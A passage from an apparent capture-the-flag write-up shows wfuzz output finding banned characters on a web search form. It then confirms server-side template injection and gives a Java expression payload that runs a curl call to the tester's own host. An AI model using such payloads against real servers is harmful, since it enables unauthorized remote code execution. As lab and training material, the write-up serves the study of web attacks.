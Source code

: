 it seems that some of the characters here straight up cause crashes. When we filter for the word `banned`, then we see some more characters:

```
$ wfuzz -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt  -u http://10.129.227.207:8080/search -d name=FUZZ --sw=69     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.227.207:8080/search
Total requests: 95

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000004:   200        28 L     69 W       755 Ch      "$"                         
000000063:   200        28 L     69 W       755 Ch      "_"                         
000000094:   200        28 L     69 W       755 Ch      "~"
```

These characters are banned, but the rest are not. This is what happens when I used `#{7*7}:`

<figure><img src="../../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works, and the payload was taken from a Freemarker cheat sheet, meaning the page runs in Java (but not necessarily FreeMarker!). We can use this payload after replacing the `$` with `*` because `#` doesn't seem to work.&#x20;

<pre><code><strong>*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.13/sstirce')}
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (680) (1).png" alt=""><figcaption></figcaption></figure>
